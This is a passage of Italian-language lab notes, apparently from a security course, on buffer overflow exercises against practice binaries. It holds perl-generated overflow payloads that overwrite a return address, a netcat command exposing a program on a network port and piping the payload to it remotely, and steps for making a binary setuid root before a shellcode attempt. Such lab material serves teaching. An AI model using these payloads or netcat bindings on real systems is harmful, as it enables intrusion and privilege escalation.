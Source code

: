 ```con Ax104 ``` , ovvero 104 valori a caso per l'overflow, e posso iniettare un numero che voglio nella variabile control. Mettendo EDCB in cui ascii era quello richiesto, raggiungiamo la funzione 
    ```
    - Mi dà che ```0x42424242 in ?? ()```, ovvero le tre B, sono state scritte da qualche parte
- Sostituisco al posto "BBBB" l' **indirizzo di ritorno** in **little endian** ```$(perl -e 'print "A"x16,"\xad\x61\x55\x56"')```

## Quarto esercizio: lab_exercises/secret_function_remote    

- ```nc -l -p 8000  -e ./es```: Mi metto in ascolto sulla porta 8000 e, tutto ciò che viene messo nello standard input della pora 8000 viene messo nello standard input del processo ./es
- su ```eth1``` della macchina vedo il mio ip host only (192.168.56.6). Mi connetto dalla **macchina host** a ```nc 192.168.56.6 8000```
- Ora provo a scrivere il payload malevolo ```$(perl -e 'print "A"x16,"\xad\x61\x55\x56"')``` dalla macchina host


1. fa partire il comando cat che si mette in ascolto della tastiera e redirezionerà tutto in una shell aperta nel testo

- **comando macchina host**: ```{ perl -e 'print "A"x16, "\xad\x61\x55\x56"'; cat; } | nc 192.168.56.6 8000```

## Quinto esercizio: lab_exercises/shellcode

Assegnamo il binario all'utente root

```sh
sudo chown root:root es
sudo chmod u+s es
```

- Eseguo gdb con sudo, e analizzo facendo ```disas``` sia **main** sia **vuln**

```0x5660a20b <+41>:    call   0x5660a1a9 <vuln>```

- Runno con il codice con elementi casuali (a 112 inizia a sovrascrivere i valori): ```run $(perl -e 'print "A"x112,"BBBB"')```.

- Vedendo i registri con ```x/300xw $esp```, vedo che ci sono le B che ho sovrascritto nei registri. Mi annoto da quale indirizzo in poi le ha sovrascritte.

- Lancio il payload per shellcode.txt
    Esempio:
    ```
    0xffb80bd0:     0x42424141      0x00004242      
    ```



